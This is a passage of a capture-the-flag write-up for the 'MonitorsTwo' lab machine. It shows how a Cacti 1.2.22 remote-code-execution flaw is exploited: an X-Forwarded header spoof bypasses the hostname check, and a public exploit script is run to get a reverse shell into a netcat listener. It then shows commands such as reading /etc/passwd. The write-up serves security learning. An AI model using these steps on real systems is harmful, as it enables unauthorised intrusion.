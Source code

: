 For step one, the php code for Cacti improperly checks for valid hostnames. Cacti utilizes internal functions that checks its __poller__ database for authorized hostnames, authorized hostnames will be allowed to utilize all Cacti functions. To bypass the hostname check, in the POST request to the target, you need to simply only add the __X-Forwarded__ header and set it to the following, __X-Forwarded: 127.0.0.1__. This tricks the target into thinking that the request is coming from itself and since target machine is authorized to make requests to itself, we now can access the functionality of the Cacti application.

The second step is a bit trickier. I emplore you to look at the article from [sonarsource](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/), there are several steps in the injection flow and the explanation Stefan gives is absolutely fantastic.

## Shell as www-data

There are a couple already premade scripts that we can use. Rapid7 has a nice module that they made to be used with their tool Metasploit but I found this nice and simple Python script that does the exact same thing, I recommend using this one for simplicity. [Exploit Script](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/blob/main/CVE-2022-46169.py).

Running the script is easy, just make sure you start a netcat listener before you do:

```bash
h0ax@h0ax:~/monitorstwo$ chmod +x rce-exploit.py 
h0ax@h0ax:~/monitorstwo$ python3 rce-exploit.py  -u http://monitorstwo.htb --LHOST=10.10.16.16 --LPORT=9999
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Netcat listener:

```bash
h0ax@h0ax:~/monitorstwo$ nc -vnlp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.211 50500
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-5.1$ pwd
pwd
/var/www/html
bash-5.1$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```